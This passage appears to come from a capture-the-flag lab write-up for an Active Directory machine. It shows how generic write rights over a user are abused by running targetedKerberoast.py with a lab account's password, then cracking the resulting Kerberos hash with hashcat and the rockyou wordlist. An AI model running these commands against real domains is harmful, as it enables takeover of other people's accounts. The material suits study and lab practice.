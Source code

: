 ### A.Briggs → N.Thompson

We have generic write on N.thompson so we can take over him by doing a targetedkerberoasting attack.

```bash
/opt/targetedKerberoast/targetedKerberoast.py -v -d 'delegate.vl' -u 'a.briggs' -p 'P4ssw0rd1#123'
```

![image.png](/assets/images/Delegate_VL/image%2014.png)

Lets now Crack this hash using Hashcat.

### Hash Cracking

Cracking this hash.

```bash
hashcat -m 13100 nthompson.hash /usr/share/wordlists/rockyou.txt
```

![image.png](/assets/images/Delegate_VL/image%2015.png)
